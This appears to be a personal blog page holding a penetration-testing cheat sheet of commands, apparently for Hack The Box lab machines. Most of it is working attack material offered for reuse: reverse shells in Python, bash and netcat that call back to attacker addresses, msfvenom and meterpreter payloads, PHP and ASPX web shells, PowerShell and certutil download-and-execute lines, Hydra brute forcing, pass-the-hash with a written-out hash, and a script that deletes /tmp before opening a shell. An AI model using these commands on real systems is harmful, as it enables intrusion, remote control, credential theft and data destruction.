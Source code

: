 ```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 4
---
```


<div align="center">
<h2>Helpful Syntaxes</h2>
</div>

| **Action** | **Syntax** |
| --- | --- |
| Dirbusting | `gobuster dir --url http://10.10.10.56/82/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,asp,aspx`<br>`dirbuster&`<br>`dirsearch -u http://10.10.10.9/ -e php -x 403,404 -t 50` |
| Setting up a listener | `nc -nlvp 4444`<br>`C:\wmpub\nc.exe -e cmd.exe 10.10.14.46 1556`<br>`?cmd=nc.exe -e cmd.exe 10.10.14.31 4314` |
| Python reverse shell | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` |
| Simple file/exploit creation | `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py` |
| Local exploit suggester | `run post/multi/recon/local_exploit_suggester` |
| msfvenom payload | `msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx` |
| curl usage | `curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'`<br>`curl -X PUT http://10.10.10.15/shell.txt -d @shell.txt` |
| Generic meterpreter shell | `use exploit/multi/handler`<br>`set payload windows/meterpreter/reverse_tcp` |
| Hosting the file for making it downloadable for another user | `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe 1 file(s) copied.` |
| Hydra bruteforce | `hydra 10.10.10.43 -l muq -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password”` |
| PHP injection | `<?php system($_REQUEST["cmd"]); ?>`<br>`<?php echo system($_REQUEST['cmd']); ?>` |
| Bash reverse shell | `bash -c 'bash -i >%26 /dev/tcp/10.10.14.19/443 0>%261'` |
| Bash spawn / Python | `python -c 'import pty;pty.spawn("bash")'` |
| Shell upgrade | `stty -a`<br>`stty raw -echo;fg —> hit enter twice`<br>`stty rows`<br>`stty cols` |
| Script for listing processes | `#!/bin/bash`<br>`#loop by line`<br>`IFS=$'\n'`<br>`old_process=$(ps -eo command)`<br>`while true; do new_process=$(ps -eo command)`<br>`diff <(echo "$old_process") <(echo "$new_process") |grep [\<\>]`<br>`sleep 1`<br>`old_process=$new_process done` |
| Checking for hidden content inside an image | `binwalk -Me` |
| Python code cleanup format | `:%s/;/\r/g` |
| Windows exploit suggester script | `python windows-exploit-suggester.py -d 2024-08-02-mssb.xls -i sysinfo.txt` |
| Searchsploit | `-x ; to look up the content of the exploit , mousepad for gui ,  -m to download` |
| Copying nc | `cp /usr/share/windows-binaries/nc.exe .` |
| Simple HTTPS server | `python -m SimpleHTTPServer 80` |
| Getting something from the simple server [WINDOWS-powershell] | `powershell -c "Invoke-WebRequest -Uri http://10.10.14.8/41020.exeChimichurri.exe -OutFile C:\ColdFusion8\runtime\bin\Chimichurri.exe"` |
| Hashcat | `hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt` |
| Certutil | `certutil -urlcache -f http://10.10.14.41/Chimichurri.exe chimichurri.exe`<br>`?cmd=certutil.exe -f -urlcache -split http://10.10.14.31/nc.exe nc.exe` |
| Wpscan script | `wpscan —url https://brainfuck.htb — disable-tls-checks` |
| John usage | `john crackthis --wordlist=/usr/share/wordlists/rockyou.txt` |
| SSH login w RSA key | `ssh -i  id_rsa orestis@brainfuck.htb` |
| PHP shell | `<?php system($_REQUEST["cmd"]); ?>` |
| DNS zone transfer | `USAGE- dig axfr @<DNS_IP> <DOMAIN>` |
| PHP reverse shell | `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` |
| Useful nmap script | `—script=oracle-sid-brute 10.10.10.12` |
| Nishang reverse shell | `cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1` |
| ASPX web shell | `/usr/share/webshells/aspx/cmdasp.aspx muq.aspx` |
| Using PowerShell to exec. content downloaded as a string | `powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/nish.ps1')` |
| Volatility | `python3 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp kdbgscan`<br>`python2 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 pstree` |
| Using hash dump | `pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 https://10.10.10.82/ cmd` |
| Reverse shell | `#!/usr/bin/env python`<br>`import os`<br>`import sys`<br>`try:`<br>`os.system('rm -r /tmp/* ')`<br>`except:`<br>`sys.exit()`<br>`os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')` |

<br>

<div align="center">
<h2>Useful Links</h2>
</div>


| **Description** | **Link** |
| --- | --- |
| Reverse shell cheat sheet | [Pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) |
| SQL injection cheat sheet | [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) |
| Crontab Guru | [Crontab Guru](https://crontab.guru/) |
| PHP reverse shell | [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) |
